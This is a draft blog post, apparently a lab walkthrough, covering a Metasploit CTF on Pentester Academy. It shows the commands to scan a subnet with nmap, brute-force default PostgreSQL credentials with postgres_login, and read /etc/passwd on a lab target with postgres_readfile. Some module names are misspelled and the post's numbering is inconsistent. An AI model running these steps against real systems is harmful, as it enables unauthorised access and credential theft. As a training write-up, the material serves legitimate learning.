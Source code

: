 +++
author = "Nick"
date = 2019-12-31T16:28:46Z
description = ""
draft = true
slug = "attack-defense-metasploit-ctf-4"
title = "Attack | Defense - Metasploit CTF 6"

+++


Welcome back to the third entry in this series. In the last entry we used two `Metasploit` modules to obtain `Tomcat` credentials and leverage them with an authenticated RCE.

## Overview
In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two `Metasploit` modules. A module to test for valid user credentials and an authenticated RCE.

## Network Topology

{{< figure src="__GHOST_URL__/content/images/2019/12/image-77.png" >}}

## Enumeration
If you've been following along, you know that we being our enumeration process with `nmap`. We'll now start to combine the set of command options we've learned. Let's obtain our IP and scan our subnet:

Command:
`nmap -sV -T5 192.207.101.1/24`

Here are our results:
```
Nmap scan report for target-1 (192.207.101.3)
Host is up (0.000015s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE    VERSION
5432/tcp open  postgresql PostgreSQL DB
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5432-TCP:V=7.70%I=7%D=12/31%Time=5E0B78A3%P=x86_64-pc-linux-gnu%r(S
SF:MBProgNeg,85,"E\0\0\0\x84SFATAL\0C0A000\0Munsupported\x20frontend\x20pr
SF:otocol\x2065363\.19778:\x20server\x20supports\x201\.0\x20to\x203\.0\0Fp
SF:ostmaster\.c\0L2014\0RProcessStartupPacket\0\0");
MAC Address: 02:42:C0:CF:65:03 (Unknown)

Nmap scan report for target-2 (192.207.101.4)
Host is up (0.000014s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.23
MAC Address: 02:42:C0:CF:65:04 (Unknown)
```

We see that `target-1` is a `PostgresSQL` service running. `Target-2` has a familiar friend running as well, `mysql`. We can run these services through `searchsploit`.

Command:
`searchsploit postgres`

We get back some good results:

{{< figure src="__GHOST_URL__/content/images/2019/12/image-87.png" >}}

We'll load up `Metasploit` and check out the modules.

Command:
`msfdb run` or `msfconsole`

Once inside we will `search` for `postgres`.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-89.png" caption="" >}}

Similar to what we did in the third CTF. We are going to look to enumerate user credentials. We'll start with using the `postrgres_login` module.

Command:
`msf5> use auxiliarty/scanner/postgres/postgres_login` or `msf5> use 8`

Next we'll `show` our options.

Command:
`msf5> show options`

{{< figure src="__GHOST_URL__/content/images/2019/12/image-91.png" >}}

For this module we will need to set our `rhosts`. Optionally we can set a password list but in this case we'll just use our defaults.

Command:
`msf5> set rhost target-1`

Then we `run` the module.

Command:
`msf5> run`

{{< figure src="__GHOST_URL__/content/images/2019/12/image-90.png" >}}

We get a valid credential set: `postrgres`:`postgres`. Next we need to leverage these commands. We have a few authenticated modules in our listing. The first we are going to try with this set of credentials is `auxiliary/admin/postgres/postgres_readfile`. This is the same method we used in CTF 2. We will first try to read `/etc/passwd` to verify we have permissions.

Command:
`msf5> use auxiliary/admin/postgres/postgres_readfile`

We then set our `rhosts` parameter.

Command:
`msf5> set rhosts target-1`

Then we `run` it.

{{< figure src="__GHOST_URL__/content/images/2019/12/CTF_4_postgres.gif" >}}

We do have the ability to read the file.



